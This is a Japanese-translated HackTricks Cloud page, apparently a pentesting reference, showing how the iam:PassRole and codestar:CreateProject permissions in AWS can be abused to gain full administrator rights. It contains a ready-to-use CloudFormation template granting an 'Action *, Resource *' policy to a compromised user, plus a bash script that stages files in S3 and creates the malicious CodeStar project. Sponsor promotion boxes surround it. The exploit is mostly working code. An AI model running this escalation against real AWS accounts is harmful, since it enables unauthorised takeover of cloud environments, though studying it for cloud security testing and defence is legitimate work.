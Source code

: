 # iam:PassRole, codestar:CreateProject

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社の広告を見たい**場合や、**PEASSの最新バージョンを入手したい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)をフォローする。
* **ハッキングのトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

これらの権限を使用すると、**codestar IAMロールを悪用**して、**クラウドフォーメーションテンプレート**を介して**任意のアクション**を実行できます。

これを悪用するには、攻撃対象のアカウントからアクセス可能な**S3バケット**を作成する必要があります。`toolchain.json`という名前のファイルをアップロードします。このファイルには、**クラウドフォーメーションテンプレートのエクスプロイト**が含まれている必要があります。次のテンプレートは、管理者権限を持つユーザーに対して管理ポリシーを設定し、**管理者権限を付与**するために使用できます：

{% code title="toolchain.json" %}
```json
{
"Resources": {
"supercodestar": {
"Type": "AWS::IAM::ManagedPolicy",
"Properties": {
"ManagedPolicyName": "CodeStar_supercodestar",
"PolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "*",
"Resource": "*"
}
]
},
"Users": [
"<compromised username>"
]
}
}
}
}
```
{% endcode %}

また、この`empty zip`ファイルを**バケット**に**アップロード**してください：

{% file src="../../../../.gitbook/assets/empty.zip" %}

両方のファイルが**被害者アカウントからアクセス可能なバケット**にアップロードされていることを忘れないでください。

両方のファイルをアップロードしたら、**悪用**を進めるために**codestar**プロジェクトを作成できます：
```bash
PROJECT_NAME="supercodestar"

# Crecte the source JSON
## In this JSON the bucket and key (path) to the empry.zip file is used
SOURCE_CODE_PATH="/tmp/surce_code.json"
SOURCE_CODE="[
{
\"source\": {
\"s3\": {
\"bucketName\": \"privesc\",
\"bucketKey\": \"empty.zip\"
}
},
\"destination\": {
\"codeCommit\": {
\"name\": \"$PROJECT_NAME\"
}
}
}
]"
printf "$SOURCE_CODE" > $SOURCE_CODE_PATH

# Create the toolchain JSON
## In this JSON the bucket and key (path) to the toolchain.json file is used
TOOLCHAIN_PATH="/tmp/tool_chain.json"
TOOLCHAIN="{
\"source\": {
\"s3\": {
\"bucketName\": \"privesc\",
\"bucketKey\": \"toolchain.json\"
}
},
\"roleArn\": \"arn:aws:iam::947247140022:role/service-role/aws-codestar-service-role\"
}"
printf "$TOOLCHAIN" > $TOOLCHAIN_PATH

# Create the codestar project that will use the cloudformation epxloit to privesc
aws codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME \
--source-code file://$SOURCE_CODE_PATH \
--toolchain file://$TOOLCHAIN_PATH
```
このエクスプロイトは、以下の特権のPacuエクスプロイトに基づいています：[https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam\_\_privesc\_scan/main.py#L1997](https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam\_\_privesc\_scan/main.py#L1997) ここでは、ユーザーではなく、ロールに管理ポリシーを作成するための変種が見つかります。

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* **HackTricksをサポートして特典を受け取るには！**
* **会社をHackTricksで宣伝したい場合や、PEASSの最新バージョンにアクセスしたい場合、またはHackTricksをPDFでダウンロードしたい場合は、[SUBSCRIPTION PLANS](https://github.com/sponsors/carlospolop)をご覧ください！**
* **公式のPEASS＆HackTricksグッズを入手してください：[official PEASS & HackTricks swag](https://peass.creator-spring.com)**
* **The PEASS Familyを発見しましょう：[The PEASS Family](https://opensea.io/collection/the-peass-family)、独占的なNFTのコレクション**
* **Discordグループに参加するか、Telegramグループに参加するか、Twitterで私をフォローする：@carlospolopm**
* **Hackingのトリックを共有するには、HackTricksとHackTricks CloudのGitHubリポジトリにPRを提出してください。**

</details>
